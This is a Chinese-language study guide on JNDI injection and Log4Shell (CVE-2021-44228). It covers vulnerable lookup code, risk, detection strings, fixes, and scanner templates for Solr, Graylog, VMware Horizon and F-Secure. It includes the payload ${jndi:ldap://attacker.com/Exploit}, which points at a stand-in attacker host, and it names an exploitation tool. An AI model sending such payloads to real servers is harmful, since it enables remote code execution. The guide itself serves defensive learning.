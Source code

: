 JNDI 注入漏洞学习文档

一、什么是 JNDI？

JNDI（Java Naming and Directory Interface）是 Java 提供的一套 API，用于访问各种命名和目录服务。它支持的协议包括：
	•	LDAP（轻量级目录访问协议）
	•	RMI（远程方法调用）
	•	DNS
	•	CORBA

开发者可以使用 JNDI 查找数据源、远程对象等资源。

⸻

二、什么是 JNDI 注入？

JNDI 注入是一种通过构造恶意的 JNDI 路径，使应用加载远程恶意类或对象的安全漏洞。攻击者可以借此实现远程代码执行（RCE）。

典型的漏洞触发形式是：程序使用了未经验证的用户输入作为 JNDI 查找路径，例如：
```java
Context ctx = new InitialContext();
Object obj = ctx.lookup(userInput);
```
当 userInput 为类似于 ldap://attacker.com/Object 的地址时，程序将访问远程服务器，并可能加载恶意对象。

三、典型案例：Log4Shell（CVE-2021-44228）

Log4Shell 是 Log4j 组件中的一个严重 JNDI 注入漏洞。

利用方式：

用户输入：${jndi:ldap://attacker.com/Exploit}
Log4j 在记录日志时解析了 ${jndi:...} 表达式，进而访问了远程 LDAP 服务器并加载了恶意类，实现了 RCE。

影响范围极广，包括大量使用 Log4j 的 Java 应用。

⸻

四、风险评估
	•	危害等级：高
	•	利用难度：中（需构建恶意 LDAP 或 RMI 服务器）
	•	影响范围：所有使用 JNDI 且未安全处理用户输入的 Java 应用

⸻

五、检测方法
	1.	检查代码是否使用了类似如下的语句：
```java
new InitialContext().lookup(userInput);
```
2.	搜索项目中是否出现如下字符串：
	•	ldap://
	•	rmi://
	•	corba://
	•	${jndi:
	3.	使用工具进行渗透测试：
	•	JNDIExploit（https://github.com/feihong-cs/JNDIExploit）

⸻

六、修复建议
	1.	严格验证和过滤用户输入，不允许用户控制 JNDI 查找路径。
	2.	升级存在漏洞的组件（例如：将 Log4j 升级至 2.16.0 或更高版本）。
	3.	禁用远程类加载功能（com.sun.jndi.ldap.object.trustURLCodebase=false）。
	4.	使用 Java 安全管理器限制远程代码执行。
	5.	网络层面封锁对外 LDAP/RMI 请求。
	6.	应用 WAF 规则拦截含 ${jndi: 等可疑 payload 的输入。

⸻

七、参考资料
	•	Apache Log4j 安全公告：https://logging.apache.org/log4j/2.x/security.html
	•	PortSwigger 关于 JNDI 注入的文章：https://portswigger.net/daily-swig/understanding-jndi-injection
	•	JNDIExploit 工具：https://github.com/feihong-cs/JNDIExploit

⸻

八、典型漏洞 YAML 文件分析

本目录下收录了多个与 JNDI 注入相关的漏洞利用模板，以下对部分典型 YAML 文件进行详细解读：

### 1. apache-solr-log4j-rce.yaml
- **漏洞类型**：JNDI 注入（Log4j RCE，CVE-2021-44228）
- **漏洞原理**：
  Apache Log4j2 <=2.14.1 在日志配置、消息和参数中使用 JNDI 特性，未对用户可控的 JNDI 路径进行有效防护。攻击者可通过构造恶意的 LDAP 地址（如 `${jndi:ldap://...}`），诱使服务端发起 JNDI 查询并加载远程恶意类，最终实现远程代码执行。
- **探测原理**：
  该 YAML 模板通过向 `/solr/admin/collections` 或 `/solr/admin/cores` 等接口注入 JNDI payload，利用 interactsh 等 OAST 平台监控 DNS 请求，若目标服务器解析 payload 并发起外部请求，则判定存在漏洞。
- **修复建议**：升级 Log4j 至 2.16.0+，禁用 JNDI 远程类加载，过滤用户输入。

### 2. graylog-log4j.yaml
- **漏洞类型**：JNDI 注入（Log4j RCE，CVE-2021-44228）
- **漏洞原理**：
  Graylog 使用易受攻击的 Log4j 版本，攻击者可通过日志记录点注入恶意 JNDI payload，触发远程类加载。
- **探测原理**：
  该模板通过 POST 请求向 Graylog API 注入 `${jndi:ldap://...}`，并监控外部 DNS 请求，判断是否存在漏洞。
- **修复建议**：升级 Log4j，过滤日志相关输入。

### 3. vmware-horizon-log4j-jndi-rce.yaml
- **漏洞类型**：JNDI 注入（Log4j RCE，CVE-2021-44228）
- **漏洞原理**：
  VMware Horizon 集成了易受攻击的 Log4j 版本，攻击者可通过 Accept-Language 等 HTTP 头注入 JNDI payload，诱使服务端发起恶意请求。
- **探测原理**：
  该模板通过 GET 请求在 Accept-Language 头中注入 `${jndi:...}`，并监控 interactsh 平台的 DNS 请求，判断漏洞是否存在。
- **修复建议**：升级 VMware Horizon 及其依赖组件，限制外部访问。

### 4. f-secure-policymanager-log4j-rce.yaml
- **漏洞类型**：JNDI 注入（Log4j RCE，CVE-2021-44228）
- **漏洞原理**：
  F-Secure Policy Manager 使用了受影响的 Log4j 版本，攻击者可通过特定参数注入 JNDI payload，触发远程代码执行。
- **探测原理**：
  该模板通过 GET 请求在参数中注入 `${jndi:ldap://...}`，并监控外部 DNS 请求，判断是否存在漏洞。
- **修复建议**：升级组件，过滤输入。

---

#### 总结
这些 YAML 文件均为 JNDI 注入漏洞的利用模板，核心原理是通过未过滤的用户输入，诱使后端 Java 应用通过 JNDI 机制加载远程恶意对象，最终实现远程代码执行。探测方式通常为注入特制 JNDI payload 并监控目标是否发起外部请求（如 DNS/LDAP），以此判断漏洞是否存在。

**防御措施主要包括：**
- 严格校验和过滤用户输入
- 升级相关依赖组件（如 Log4j）
- 禁用 JNDI 远程类加载
- 加强网络层访问控制
